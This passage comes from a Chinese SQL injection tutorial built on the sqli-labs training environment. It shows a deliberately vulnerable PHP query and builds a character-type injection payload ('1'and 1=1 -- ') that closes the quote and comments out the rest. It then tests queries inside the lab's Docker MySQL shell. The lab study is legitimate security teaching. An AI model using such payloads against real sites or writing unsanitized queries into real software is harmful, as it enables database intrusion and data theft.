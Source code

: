 ```php
";
	      echo "</font>";
	    }
		else 
		{
          // 失败，关闭错误回显
  		  echo '<font size="5" color="#FFFF00">';
  		  //echo 'You are in...........';
  		  //print_r(mysql_error());
  		  //echo "You have an error in your SQL syntax";
  		  echo "</br></font>";	
  		  echo '<font color= "#0000ff" font size= 3>';	
		
		}
	}
		else { echo "Please input the ID as parameter with numeric value";}
?>
```

重点就在这句 SQL 语句上：

```sql
SELECT * FROM users WHERE id='$id' LIMIT 0,1
```

注意这里有单引号，所以是字符型注入，我们将前面的测试语句代入：

```sql
SELECT * FROM users WHERE id='1'and 1=1' LIMIT 0,1
```

此处单引号未得到闭合，导致了语法错误，这正是前面测试方法失败的原因。我们可以考虑用--注释掉。**在 URL 请求里要注意在后面加 +，+ 在 URL 中相当于空格，加了 + 才能有效注释**。最后我们得到构造语句：

```sql
SELECT * FROM users WHERE id='1'and 1=1 -- ' LIMIT 0,1
```

为了方便验证 SQL 语句，推荐你直接进入 Docker 容器的 MySQL 进行测试：

```shell
$ sudo docker ps
CONTAINER ID        IMAGE                COMMAND             CREATED             STATUS              PORTS                          NAMES
ea6ec615a39e        acgpiano/sqli-labs   "/run.sh"           29 hours ago        Up 29 hours         0.0.0.0:80->80/tcp, 3306/tcp   sqli-labs
$ sudo docker exec -it ea6ec615a39e /bin/bash
$ root@ea6ec615a39e:/# mysql -u root
mysql> use security;
mysql> SELECT * FROM users WHERE id='1' LIMIT 0,1;
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  1 | Dumb     | Dumb     |
+----+----------+----------+
1 row in set (0.00 sec)

mysql> SELECT * FROM users WHERE id='1 and 1=1' LIMIT 0,1;
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  1 | Dumb     | Dumb     |
+----+----------+----------+
1 row in set, 1 warning (0.00 sec)

mysql> SELECT * FROM users WHERE id='1 and 1=2' LIMIT 0,1;
+----+----------+----------+
| id | username | password |
```